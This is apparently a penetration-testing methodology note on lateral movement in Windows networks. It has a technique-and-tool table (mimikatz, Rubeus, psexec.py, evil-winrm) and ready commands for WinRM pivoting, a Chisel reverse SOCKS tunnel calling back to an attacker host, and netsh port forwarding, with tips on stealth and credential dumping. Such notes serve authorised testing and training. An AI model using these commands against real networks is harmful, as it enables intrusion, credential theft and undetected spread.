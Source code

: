 ```yaml
---
dg-publish: true
---
```

 

_Goal: Move laterally across systems to access additional machines, credentials, or data._

---

### **Objectives**

- Use current access to move laterally to other systems
    
- Identify routes to high-value systems (e.g., file servers, domain controllers)
    
- Maintain stealth and minimize detection during movement
    

---

### **Mermaid Diagram**

```mermaid
graph TD
    A[Access on Initial Host] --> B[Identify Reachable Hosts]
    B --> C[Find Valid Creds or Tokens]
    C --> D[Use SMB, WMI, WinRM, RDP for Pivot]
    D --> E[Execute Commands or Deploy Tools]
    E --> F[Enumerate New Machine for Privilege or DA Path]
```

  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|Host Discovery|fping, nmap, PowerShell Test-Connection|Identify live hosts on subnets|
|Session Detection|quser, Get-NetSession, Invoke-UserHunter (PowerView)|Look for where users are logged in|
|SMB Pivot|wmiexec.py, psexec.py, crackmapexec|Leverage creds to execute commands over SMB|
|WMI Pivot|wmiexec.py, Invoke-WmiMethod|Remote command execution via WMI|
|WinRM Pivot|evil-winrm, Enter-PSSession|Preferred for stealthy and PowerShell-based access|
|RDP Pivot|xfreerdp, mstsc|Full interactive access if RDP is enabled|
|Reverse Proxy (Socks)|Chisel, SSH -D, proxychains, meterpreter socks4a|Create pivot tunnels for scanning or shell access|
|Port Proxy|netsh interface portproxy|Forward ports via compromised system|
|Token Impersonation|mimikatz, Incognito, Rubeus|Use available tokens from other logged-in users|
|TGT/TGS Delegation Abuse|Rubeus, kerberos::ptt, unconstrained delegation|Move using ticket-based attacks|

  

---

### **Example: Pivot via Evil-WinRM**

```
evil-winrm -i <IP> -u <USER> -p <PASS>
```

  

---

### **Example: Chisel SOCKS Reverse Proxy**

```
# On attacker (server)
./chisel server -p 8080 --reverse

# On target (client)
chisel.exe client <attacker_ip>:8080 R:socks
```

Then configure /etc/proxychains.conf with:

```
socks5 127.0.0.1 1080
```

  

---

### **Example: Port Forwarding with netsh**

```
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=10.10.10.10 connectport=3389 connectaddress=172.16.6.50
```

  

---

### **Pro Tips**

- Use proxychains or Chisel to make BloodHound, nmap, and xfreerdp work through internal pivots
    
- Combine Find-LocalAdminAccess + valid creds to chain pivots
    
- After each new box, re-check for **priv escalation** and **credential dumping opportunities**
    
